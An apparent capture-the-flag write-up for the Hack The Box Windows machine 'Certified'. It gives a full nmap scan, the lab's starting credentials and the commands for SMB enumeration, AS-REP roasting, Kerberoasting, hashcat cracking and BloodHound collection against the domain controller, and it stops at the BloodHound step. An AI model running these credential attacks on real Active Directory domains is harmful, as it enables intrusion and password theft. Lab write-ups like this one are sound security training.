- Machine Name: Certified
- OS Type: Windows
- Difficulty: Medium

### Port Scanning - Service & Version Enumeration

```bash
# Nmap 7.95 scan initiated Wed May  7 19:03:45 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.11.41
Nmap scan report for 10.10.11.41
Host is up, received echo-reply ttl 127 (0.28s latency).
Scanned at 2025-05-07 19:03:46 IST for 776s
Not shown: 65514 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-05-07 20:44:41Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certified.htb
| Issuer: commonName=certified-DC01-CA/domainComponent=certified
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-05-13T15:49:36
| Not valid after:  2025-05-13T15:49:36
| MD5:   4e1f:97f0:7c0a:d0ec:52e1:5f63:ec55:f3bc
| SHA-1: 28e2:4c68:aa00:dd8b:ee91:564b:33fe:a345:116b:3828
| -----BEGIN CERTIFICATE-----
| MIIGPzCCBSegAwIBAgITeQAAAAIvfMdjJV9GkQAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBMMRMwEQYKCZImiZPyLGQBGRYDaHRiMRkwFwYKCZImiZPyLGQBGRYJY2VydGlm
| aWVkMRowGAYDVQQDExFjZXJ0aWZpZWQtREMwMS1DQTAeFw0yNDA1MTMxNTQ5MzZa
| Fw0yNTA1MTMxNTQ5MzZaMB0xGzAZBgNVBAMTEkRDMDEuY2VydGlmaWVkLmh0YjCC
| ASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAMx/FhgH36heOUjpNhO4JWYX
| E0zDwpKfx3dfqvEqTvIfRLpptNUCfkaeZijP+YAlUMNSNUvgFLZ7yuZf3ubIcEv8
| wXMlABwpVxe3NtOzLXQhNypU/W53DgYZoD9ueC3ob6f4jI6dN6jKt4gV/pBmoX3i
| Ky0XmrIaMkO8W20gzJtf8RaZYChHzhilGs3TwkKmBkZFt4+KeTkCbBE4T8zka8l6
| 52hfOhdz5YOU82eviJuTQqaprVtognmW6EV2C7laO+UvQy2VwZc9L+6A42t5Pz2E
| e+28xaBIGAgNn5TMcS+oJC0qhnAFNazT2X4p0aq3WBlF5BMwadrEwk59t4VcRc0C
| AwEAAaOCA0cwggNDMC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4A
| dAByAG8AbABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYD
| VR0PAQH/BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4G
| CCqGSIb3DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFl
| AwQBAjALBglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYE
| FPTg6Uo2pYQv7jJTC9x7Reo9CbVVMB8GA1UdIwQYMBaAFOz7EkAVob3H0S47Lk1L
| csBi3yv1MIHOBgNVHR8EgcYwgcMwgcCggb2ggbqGgbdsZGFwOi8vL0NOPWNlcnRp
| ZmllZC1EQzAxLUNBLENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Y2VydGlmaWVk
| LERDPWh0Yj9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xh
| c3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgcUGCCsGAQUFBwEBBIG4MIG1MIGyBggr
| BgEFBQcwAoaBpWxkYXA6Ly8vQ049Y2VydGlmaWVkLURDMDEtQ0EsQ049QUlBLENO
| PVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3Vy
| YXRpb24sREM9Y2VydGlmaWVkLERDPWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/b2Jq
| ZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA+BgNVHREENzA1oB8GCSsG
| AQQBgjcZAaASBBBTwp5mQoxFT6ExYzeAVBiughJEQzAxLmNlcnRpZmllZC5odGIw
| TgYJKwYBBAGCNxkCBEEwP6A9BgorBgEEAYI3GQIBoC8ELVMtMS01LTIxLTcyOTc0
| Njc3OC0yNjc1OTc4MDkxLTM4MjAzODgyNDQtMTAwMDANBgkqhkiG9w0BAQsFAAOC
| AQEAk4PE1BZ/qAgrUyzYM5plxxgUpGbICaWEkDkyiu7uCaTOehQ4rITZE1xefpHW
| VVEULz9UqlozCQgaKy3BRQsUjMZgkcQt0D+5Ygnri/+M3adcYWpJHsk+gby/JShv
| ztRj1wS/X6SEErDaf9Nw0jgZi3QCaNqH2agxwj+oA+mCMd5mBq7JtWcCI3wQ3xuE
| aOEd9Q86T/J4ZdGC+8iQKt3GrvHzTEDijK9zWxm8nuftG/AyBU0N23xJCLgWZkQU
| fgVn+2b7pjWIPAWdZv8WqcJV1tinG0oM83wgbg3Nv3ZeoEwDCs5MgYprXNImNGtI
| zQY41iYatWCKZW54Ylno2wj9tg==
|_-----END CERTIFICATE-----
|_ssl-date: 2025-05-07T20:46:17+00:00; +6h59m35s from scanner time.
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certified.htb
| Issuer: commonName=certified-DC01-CA/domainComponent=certified
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-05-13T15:49:36
| Not valid after:  2025-05-13T15:49:36
| MD5:   4e1f:97f0:7c0a:d0ec:52e1:5f63:ec55:f3bc
| SHA-1: 28e2:4c68:aa00:dd8b:ee91:564b:33fe:a345:116b:3828
| -----BEGIN CERTIFICATE-----
| MIIGPzCCBSegAwIBAgITeQAAAAIvfMdjJV9GkQAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBMMRMwEQYKCZImiZPyLGQBGRYDaHRiMRkwFwYKCZImiZPyLGQBGRYJY2VydGlm
| aWVkMRowGAYDVQQDExFjZXJ0aWZpZWQtREMwMS1DQTAeFw0yNDA1MTMxNTQ5MzZa
| Fw0yNTA1MTMxNTQ5MzZaMB0xGzAZBgNVBAMTEkRDMDEuY2VydGlmaWVkLmh0YjCC
| ASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAMx/FhgH36heOUjpNhO4JWYX
| E0zDwpKfx3dfqvEqTvIfRLpptNUCfkaeZijP+YAlUMNSNUvgFLZ7yuZf3ubIcEv8
| wXMlABwpVxe3NtOzLXQhNypU/W53DgYZoD9ueC3ob6f4jI6dN6jKt4gV/pBmoX3i
| Ky0XmrIaMkO8W20gzJtf8RaZYChHzhilGs3TwkKmBkZFt4+KeTkCbBE4T8zka8l6
| 52hfOhdz5YOU82eviJuTQqaprVtognmW6EV2C7laO+UvQy2VwZc9L+6A42t5Pz2E
| e+28xaBIGAgNn5TMcS+oJC0qhnAFNazT2X4p0aq3WBlF5BMwadrEwk59t4VcRc0C
| AwEAAaOCA0cwggNDMC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4A
| dAByAG8AbABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYD
| VR0PAQH/BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4G
| CCqGSIb3DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFl
| AwQBAjALBglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYE
| FPTg6Uo2pYQv7jJTC9x7Reo9CbVVMB8GA1UdIwQYMBaAFOz7EkAVob3H0S47Lk1L
| csBi3yv1MIHOBgNVHR8EgcYwgcMwgcCggb2ggbqGgbdsZGFwOi8vL0NOPWNlcnRp
| ZmllZC1EQzAxLUNBLENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Y2VydGlmaWVk
| LERDPWh0Yj9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xh
| c3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgcUGCCsGAQUFBwEBBIG4MIG1MIGyBggr
| BgEFBQcwAoaBpWxkYXA6Ly8vQ049Y2VydGlmaWVkLURDMDEtQ0EsQ049QUlBLENO
| PVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3Vy
| YXRpb24sREM9Y2VydGlmaWVkLERDPWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/b2Jq
| ZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA+BgNVHREENzA1oB8GCSsG
| AQQBgjcZAaASBBBTwp5mQoxFT6ExYzeAVBiughJEQzAxLmNlcnRpZmllZC5odGIw
| TgYJKwYBBAGCNxkCBEEwP6A9BgorBgEEAYI3GQIBoC8ELVMtMS01LTIxLTcyOTc0
| Njc3OC0yNjc1OTc4MDkxLTM4MjAzODgyNDQtMTAwMDANBgkqhkiG9w0BAQsFAAOC
| AQEAk4PE1BZ/qAgrUyzYM5plxxgUpGbICaWEkDkyiu7uCaTOehQ4rITZE1xefpHW
| VVEULz9UqlozCQgaKy3BRQsUjMZgkcQt0D+5Ygnri/+M3adcYWpJHsk+gby/JShv
| ztRj1wS/X6SEErDaf9Nw0jgZi3QCaNqH2agxwj+oA+mCMd5mBq7JtWcCI3wQ3xuE
| aOEd9Q86T/J4ZdGC+8iQKt3GrvHzTEDijK9zWxm8nuftG/AyBU0N23xJCLgWZkQU
| fgVn+2b7pjWIPAWdZv8WqcJV1tinG0oM83wgbg3Nv3ZeoEwDCs5MgYprXNImNGtI
| zQY41iYatWCKZW54Ylno2wj9tg==
|_-----END CERTIFICATE-----
|_ssl-date: 2025-05-07T20:46:15+00:00; +6h59m36s from scanner time.
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-07T20:46:17+00:00; +6h59m35s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certified.htb
| Issuer: commonName=certified-DC01-CA/domainComponent=certified
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-05-13T15:49:36
| Not valid after:  2025-05-13T15:49:36
| MD5:   4e1f:97f0:7c0a:d0ec:52e1:5f63:ec55:f3bc
| SHA-1: 28e2:4c68:aa00:dd8b:ee91:564b:33fe:a345:116b:3828
| -----BEGIN CERTIFICATE-----
| MIIGPzCCBSegAwIBAgITeQAAAAIvfMdjJV9GkQAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBMMRMwEQYKCZImiZPyLGQBGRYDaHRiMRkwFwYKCZImiZPyLGQBGRYJY2VydGlm
| aWVkMRowGAYDVQQDExFjZXJ0aWZpZWQtREMwMS1DQTAeFw0yNDA1MTMxNTQ5MzZa
| Fw0yNTA1MTMxNTQ5MzZaMB0xGzAZBgNVBAMTEkRDMDEuY2VydGlmaWVkLmh0YjCC
| ASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAMx/FhgH36heOUjpNhO4JWYX
| E0zDwpKfx3dfqvEqTvIfRLpptNUCfkaeZijP+YAlUMNSNUvgFLZ7yuZf3ubIcEv8
| wXMlABwpVxe3NtOzLXQhNypU/W53DgYZoD9ueC3ob6f4jI6dN6jKt4gV/pBmoX3i
| Ky0XmrIaMkO8W20gzJtf8RaZYChHzhilGs3TwkKmBkZFt4+KeTkCbBE4T8zka8l6
| 52hfOhdz5YOU82eviJuTQqaprVtognmW6EV2C7laO+UvQy2VwZc9L+6A42t5Pz2E
| e+28xaBIGAgNn5TMcS+oJC0qhnAFNazT2X4p0aq3WBlF5BMwadrEwk59t4VcRc0C
| AwEAAaOCA0cwggNDMC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4A
| dAByAG8AbABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYD
| VR0PAQH/BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4G
| CCqGSIb3DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFl
| AwQBAjALBglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYE
| FPTg6Uo2pYQv7jJTC9x7Reo9CbVVMB8GA1UdIwQYMBaAFOz7EkAVob3H0S47Lk1L
| csBi3yv1MIHOBgNVHR8EgcYwgcMwgcCggb2ggbqGgbdsZGFwOi8vL0NOPWNlcnRp
| ZmllZC1EQzAxLUNBLENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Y2VydGlmaWVk
| LERDPWh0Yj9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xh
| c3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgcUGCCsGAQUFBwEBBIG4MIG1MIGyBggr
| BgEFBQcwAoaBpWxkYXA6Ly8vQ049Y2VydGlmaWVkLURDMDEtQ0EsQ049QUlBLENO
| PVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3Vy
| YXRpb24sREM9Y2VydGlmaWVkLERDPWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/b2Jq
| ZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA+BgNVHREENzA1oB8GCSsG
| AQQBgjcZAaASBBBTwp5mQoxFT6ExYzeAVBiughJEQzAxLmNlcnRpZmllZC5odGIw
| TgYJKwYBBAGCNxkCBEEwP6A9BgorBgEEAYI3GQIBoC8ELVMtMS01LTIxLTcyOTc0
| Njc3OC0yNjc1OTc4MDkxLTM4MjAzODgyNDQtMTAwMDANBgkqhkiG9w0BAQsFAAOC
| AQEAk4PE1BZ/qAgrUyzYM5plxxgUpGbICaWEkDkyiu7uCaTOehQ4rITZE1xefpHW
| VVEULz9UqlozCQgaKy3BRQsUjMZgkcQt0D+5Ygnri/+M3adcYWpJHsk+gby/JShv
| ztRj1wS/X6SEErDaf9Nw0jgZi3QCaNqH2agxwj+oA+mCMd5mBq7JtWcCI3wQ3xuE
| aOEd9Q86T/J4ZdGC+8iQKt3GrvHzTEDijK9zWxm8nuftG/AyBU0N23xJCLgWZkQU
| fgVn+2b7pjWIPAWdZv8WqcJV1tinG0oM83wgbg3Nv3ZeoEwDCs5MgYprXNImNGtI
| zQY41iYatWCKZW54Ylno2wj9tg==
|_-----END CERTIFICATE-----
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-07T20:46:15+00:00; +6h59m36s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certified.htb
| Issuer: commonName=certified-DC01-CA/domainComponent=certified
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-05-13T15:49:36
| Not valid after:  2025-05-13T15:49:36
| MD5:   4e1f:97f0:7c0a:d0ec:52e1:5f63:ec55:f3bc
| SHA-1: 28e2:4c68:aa00:dd8b:ee91:564b:33fe:a345:116b:3828
| -----BEGIN CERTIFICATE-----
| MIIGPzCCBSegAwIBAgITeQAAAAIvfMdjJV9GkQAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBMMRMwEQYKCZImiZPyLGQBGRYDaHRiMRkwFwYKCZImiZPyLGQBGRYJY2VydGlm
| aWVkMRowGAYDVQQDExFjZXJ0aWZpZWQtREMwMS1DQTAeFw0yNDA1MTMxNTQ5MzZa
| Fw0yNTA1MTMxNTQ5MzZaMB0xGzAZBgNVBAMTEkRDMDEuY2VydGlmaWVkLmh0YjCC
| ASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAMx/FhgH36heOUjpNhO4JWYX
| E0zDwpKfx3dfqvEqTvIfRLpptNUCfkaeZijP+YAlUMNSNUvgFLZ7yuZf3ubIcEv8
| wXMlABwpVxe3NtOzLXQhNypU/W53DgYZoD9ueC3ob6f4jI6dN6jKt4gV/pBmoX3i
| Ky0XmrIaMkO8W20gzJtf8RaZYChHzhilGs3TwkKmBkZFt4+KeTkCbBE4T8zka8l6
| 52hfOhdz5YOU82eviJuTQqaprVtognmW6EV2C7laO+UvQy2VwZc9L+6A42t5Pz2E
| e+28xaBIGAgNn5TMcS+oJC0qhnAFNazT2X4p0aq3WBlF5BMwadrEwk59t4VcRc0C
| AwEAAaOCA0cwggNDMC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4A
| dAByAG8AbABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYD
| VR0PAQH/BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4G
| CCqGSIb3DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFl
| AwQBAjALBglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYE
| FPTg6Uo2pYQv7jJTC9x7Reo9CbVVMB8GA1UdIwQYMBaAFOz7EkAVob3H0S47Lk1L
| csBi3yv1MIHOBgNVHR8EgcYwgcMwgcCggb2ggbqGgbdsZGFwOi8vL0NOPWNlcnRp
| ZmllZC1EQzAxLUNBLENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Y2VydGlmaWVk
| LERDPWh0Yj9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xh
| c3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgcUGCCsGAQUFBwEBBIG4MIG1MIGyBggr
| BgEFBQcwAoaBpWxkYXA6Ly8vQ049Y2VydGlmaWVkLURDMDEtQ0EsQ049QUlBLENO
| PVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3Vy
| YXRpb24sREM9Y2VydGlmaWVkLERDPWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/b2Jq
| ZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA+BgNVHREENzA1oB8GCSsG
| AQQBgjcZAaASBBBTwp5mQoxFT6ExYzeAVBiughJEQzAxLmNlcnRpZmllZC5odGIw
| TgYJKwYBBAGCNxkCBEEwP6A9BgorBgEEAYI3GQIBoC8ELVMtMS01LTIxLTcyOTc0
| Njc3OC0yNjc1OTc4MDkxLTM4MjAzODgyNDQtMTAwMDANBgkqhkiG9w0BAQsFAAOC
| AQEAk4PE1BZ/qAgrUyzYM5plxxgUpGbICaWEkDkyiu7uCaTOehQ4rITZE1xefpHW
| VVEULz9UqlozCQgaKy3BRQsUjMZgkcQt0D+5Ygnri/+M3adcYWpJHsk+gby/JShv
| ztRj1wS/X6SEErDaf9Nw0jgZi3QCaNqH2agxwj+oA+mCMd5mBq7JtWcCI3wQ3xuE
| aOEd9Q86T/J4ZdGC+8iQKt3GrvHzTEDijK9zWxm8nuftG/AyBU0N23xJCLgWZkQU
| fgVn+2b7pjWIPAWdZv8WqcJV1tinG0oM83wgbg3Nv3ZeoEwDCs5MgYprXNImNGtI
| zQY41iYatWCKZW54Ylno2wj9tg==
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49681/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49716/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49739/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
61977/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 50458/tcp): CLEAN (Timeout)
|   Check 2 (port 12513/tcp): CLEAN (Timeout)
|   Check 3 (port 12583/udp): CLEAN (Timeout)
|   Check 4 (port 59388/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 6h59m35s, deviation: 0s, median: 6h59m34s
| smb2-time: 
|   date: 2025-05-07T20:45:36
|_  start_date: N/A

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May  7 19:16:42 2025 -- 1 IP address (1 host up) scanned in 777.05 seconds

```

## Enumeration

This machine provides us the initial creds

- Username: judith.mader Password: judith09

before starting enumeration add DC01.certified.htb and certified.htb in /etc/hosts file



### Port 139,445/SMB

i’ll start my enumeration from SMB service as we got the initial credentials i first use the netexec to enumerate shares and check the access of shares

```bash
netexec smb 10.10.11.41 -u judith.mader -p judith09 --shares
```



let’s check if we can find anything interesting in NETLOGON share

```bash
smbclient //10.10.11.41/NETLOGON -U "certified.htb/judith.mader%judith09"
```



let’s enumerate users using netexec

```bash
netexec smb 10.10.11.41 -u judith.mader -p judith09 --users
```



let’s create user’s list and check if any user is vulnerable to AS-REP Roasting

```bash
impacket-GetNPUsers certified.htb/ -dc-ip 10.10.11.41 -no-pass -usersfile users.txt
```



as we have valid credentials we can  check for the Kerberoastable users

```bash
impacket-GetUserSPNs certified.htb/judith.mader:judith09 -dc-ip 10.10.11.41 -request
```



but we got the “Clock Skew too great” error this is because of Time zone mismatch in KDC server and our kali machine

we can fix this issue with

```bash
sudo ntpdate 10.10.11.41
```



again running command we got the TGS for the management_svc user



let’s try to crack hash using hashcat

```bash
hashcat -m 13100 management_svc.hash /usr/share/wordlists/rockyou.txt
```

but no success, hashcat not able to crack the hash, now to get better picture of Domain i’ll run bloodhound

use bloodhound-python to gather information from domain

```bash
bloodhound-python -c all -d certified.htb -u judith.mader -p 'judith09' -ns 10.10.11.41
```

